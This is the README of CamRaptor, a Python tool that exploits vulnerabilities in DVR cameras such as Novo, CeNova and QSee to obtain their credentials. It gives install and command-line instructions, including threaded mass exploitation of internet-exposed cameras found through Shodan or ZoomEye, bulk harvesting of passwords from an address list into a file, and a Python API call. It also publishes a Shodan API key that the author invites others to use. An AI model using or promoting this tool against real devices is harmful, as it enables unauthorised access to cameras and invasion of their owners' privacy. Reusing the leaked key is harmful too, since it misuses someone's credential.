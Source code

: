 # CamRaptor

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor/forks">
        <img src="https://img.shields.io/github/forks/EntySec/CamRaptor?color=green">
    </a>
    <a href="https://github.com/EntySec/CamRaptor/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/CamRaptor?color=yellow">
    </a>
    <a href="https://www.codefactor.io/repository/github/EntySec/CamRaptor">
        <img src="https://www.codefactor.io/repository/github/EntySec/CamRaptor/badge">
    </a>
</p>

CamRaptor is a tool that exploits several vulnerabilities in popular DVR cameras to obtain network camera credentials.

## Features

* Exploits vulnerabilities in most popular camera models such as `Novo`, `CeNova` and `QSee`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamRaptor
```

## Basic usage

To use CamRaptor just type `camraptor` in your terminal.

```
usage: camraptor [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS]
                 [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]

CamRaptor is a tool that exploits several vulnerabilities in popular DVR
cameras to obtain network camera credentials.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

**Exploiting single camera**

Let's hack my camera just for fun.

```shell
camraptor -a 192.168.99.100
```

**Exploiting cameras from Internet**

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```shell
camraptor -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**Exploiting cameras from input file**

Let's try to use opened database of cameras with `-t` for fast exploitation.

```shell
camraptor -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## API usage

CamRaptor also has their own Python API that can be invoked by importing CamRaptor to your code.

```python
from camraptor import CamRaptor
```

### Basic functions

There are all CamRaptor basic functions that can be used to exploit specified camera.

* `exploit(address)` - Exploit single camera by given address.

### Examples

**Exploiting single camera**

```python
from camraptor import CamRaptor

camraptor = CamRaptor()
creds = camraptor.exploit('192.168.99.100')

print(creds)
```
